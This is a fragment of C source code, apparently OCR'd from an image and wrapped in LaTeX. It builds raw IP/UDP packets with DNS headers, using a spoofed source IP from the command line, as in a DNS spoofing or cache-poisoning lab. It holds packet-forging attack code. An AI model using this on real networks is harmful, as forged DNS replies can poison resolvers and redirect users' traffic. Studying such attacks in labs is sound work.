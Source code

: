 \documentclass[a4paper,12pt]{article}
\begin{document}
{		    udp->udph_srcport = htons(53);//40000+rand()%
		
		    // Destination port number
		
		    udp->udph_destport = htons(33333);
		
		
		    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // udp_header_size + udp_payload_size
		
		
		
		
		
		
		
		
		    // Calculate the checksum for integrity//
		
		    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));
		 
		
		    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
		/*******************************************************************************8
		*/
		
		
		
		
		
		    // This is configue for send packet
		
		    // standard header structures but assign our own values.
		
		    ip2->iph_ihl = 5;
		
		
		    ip2->iph_ver = 4;
		
		
		    ip2->iph_tos = 0; // Low delay
		
		
		    unsigned short int packetLength_send =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length_send+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size
		
		     ip2->iph_len=htons(packetLength_send);
		
		    ip2->iph_ident = htons(rand()); // we give a random number for the identification#
		
		
		    ip2->iph_ttl = 110; // hops
		
		    ip2->iph_protocol = 17; // UDP
		
		    // Source IP address, can use spoofed address here!!!
		
		    ip2->iph_sourceip = inet_addr(argv[1]);
		
		    // The destination IP address
		
		    ip2->iph_destip = inet_addr(argv[2]);
		
}
\end{document}
